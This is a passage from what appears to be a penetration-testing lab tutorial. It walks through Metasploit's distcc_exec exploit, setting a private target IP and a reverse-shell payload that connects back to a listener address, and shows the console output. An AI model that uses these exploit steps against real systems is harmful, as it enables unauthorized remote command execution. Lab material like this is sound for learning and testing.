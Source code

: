 ```bash
   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

```

5. Now we will set RHOSTS  (Target IP). As the only compulsory option empty was RHOSTS.

```bash
msf exploit(unix/misc/distcc_exec) > set RHOSTS 192.168.1.74
RHOSTS => 192.168.1.74
msf exploit(unix/misc/distcc_exec) > options

Module options (exploit/unix/misc/distcc_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, http, socks5h
   RHOSTS   192.168.1.74     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.8      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

```

6. Now we have to set the payload for the exploit we are using for the reverse shell.

```bash
msf exploit(unix/misc/distcc_exec) > set payload payload/cmd/unix/reverse
payload => cmd/unix/reverse
```

